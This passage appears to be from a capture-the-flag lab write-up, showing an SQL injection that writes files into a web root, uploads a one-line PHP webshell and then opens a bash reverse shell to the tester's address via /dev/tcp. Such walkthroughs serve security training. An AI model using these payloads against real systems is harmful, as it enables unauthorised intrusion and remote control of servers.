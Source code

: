 ![Untitled](images/Untitled%2023.png)

I tried to log in via ssh using that password with no success. Let’s se if we can inject content using the SQLi:

`' UNION SELECT "Prueba de contenido" into outfile '/var/www/html/prueba.txt' -- -`

![Untitled](images/Untitled%2024.png)

Yeah, we can.

Let’s try to upload a php webshell!

`' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/ws.php' -- -`

![Untitled](images/Untitled%2025.png)

Now we can send commands as www-data. Let’s try to obtain a reverse shell to operate more easily:

`http://10.129.85.205/ws.php?cmd=bash -i >& /dev/tcp/10.10.14.234/443 0>&1`

![Untitled](images/Untitled%2026.png)
